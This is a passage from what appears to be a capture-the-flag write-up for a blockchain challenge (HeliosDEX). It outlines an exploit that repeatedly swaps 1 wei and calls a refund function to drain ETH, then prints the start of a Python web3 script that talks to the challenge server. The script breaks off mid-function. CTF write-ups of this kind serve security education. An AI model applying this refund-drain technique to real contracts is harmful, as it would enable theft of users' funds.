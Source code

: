 ### **Step 3: Implementing the Algorithm**
The algorithm is implemented in four parts:
1. **Control Service Interaction:**  
   Interact with the control service (using netcat-like commands) to retrieve the connection info (which contains ephemeral account details).
2. **Exploit Cycle:**  
   For each ephemeral account:
   - Call `swapForMAL()` with 1 wei.
   - Approve and then call `oneTimeRefund()` to get the ETH refund.
3. **Aggregation:**  
   Transfer the funds from each ephemeral account (after deducting the gas cost) to a persistent aggregator account.
4. **Flag Retrieval:**  
   Loop until the aggregator’s balance reaches at least 20 ETH, then use the control service to get the flag.

![nc output](/blog/images/htb/blockchain_heliosdex_writeup_step1.png)
_Connecting to challenge server_

### **Step 4: Writing the Python Code**
```python
import socket
import re
import time
from web3 import Web3

### CONFIGURATION ###
CONTROL_HOST = "83.136.249.101"
CONTROL_PORT = 53654
RPC_NODE_URL = "http://83.136.249.101:57493"
TARGET_BALANCE_ETH = 20
# If you have a persistent aggregator address, fill it in here.
# Otherwise, leave the placeholder to use the initial connection info.
AGGREGATOR_ADDRESS = "0xYourAggregatorAddressHere"

### CONTROL SERVICE FUNCTIONS ###
def send_control_command(cmd: str) -> str:
    """Connect to the control service, send a command, and return the response."""
    s = socket.socket()
    s.connect((CONTROL_HOST, CONTROL_PORT))
    time.sleep(0.5)
    try:
        _ = s.recv(1024).decode()
    except Exception:
        pass
    s.sendall(cmd.encode() + b"\n")
    time.sleep(0.5)
    response = s.recv(4096).decode()
    s.close()
    return response

def get_initial_connection_info() -> dict:
    print("[*] Getting initial connection information (option 1)...")
    resp = send_control_command("1")
    print(resp)
    priv_key = re.search(r"Player Private Key\s*:\s*(0x[0-9a-fA-F]+)", resp).group(1)
    player_addr = re.search(r"Player Address\s*:\s*(0x[0-9a-fA-F]+)", resp).group(1)
    target_contract = re.search(r"Target contract\s*:\s*(0x[0-9a-fA-F]+)", resp).group(1)
    setup_contract = re.search(r"Setup contract\s*:\s*(0x[0-9a-fA-F]+)", resp).group(1)
    return {
        "player_private_key": priv_key,
        "player_address": player_addr,
        "target_contract": target_contract,
```